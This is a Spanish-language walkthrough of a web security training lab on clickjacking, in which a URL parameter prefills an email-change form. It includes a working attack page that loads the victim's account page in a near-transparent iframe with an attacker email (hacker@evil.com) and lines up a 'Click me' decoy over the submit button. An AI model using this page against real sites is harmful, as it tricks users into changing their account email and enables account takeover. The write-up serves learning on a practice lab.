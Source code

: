 
## Clickjacking with prefilled form input

Algunos sitios web que requieren completar y enviar formularios permiten rellenar previamente los campos del formulario utilizando parámetros GET antes de enviarlo. Otros sitios web pueden requerir texto antes de enviar el formulario. Dado que los valores GET forman parte de la URL, la URL de destino se puede modificar para incorporar los valores que elija el atacante y el botón «enviar» transparente se superpone en el sitio señuelo, como en el ejemplo básico de clickjacking.

## Lab: Clickjacking with form input data prefilled from a URL parameter

![20251005164025.png](20251005164025.png)

En este laboratorio se necesita cambiar el correo el usuario victima

![20251005164318.png](20251005164318.png)

Por lo que primero, debemos entender que se tiene un `input` en el cual debe contener el valor o el email del atacante. Lo que se hizo fue poner en el url `email=attacker@email.com` y este es reflejado en nuestro input.

```c
https://0a14001d03e8592681401ba3000300d3.web-security-academy.net/my-account?email=attacker@email.com
```

![20251005165047.png](20251005165047.png)

Una entendido esto, podemos iniciar a cambiar los valores de nuestro código html para que se ve y posicione nuestro `Click me` en el lugar correcto.

![20251005170000.png](20251005170000.png)

```c
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 515px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top:470px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a14001d03e8592681401ba3000300d3.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
</body>
</html>
```

luego debemos de cambiar la opacidad y enviar a la victima
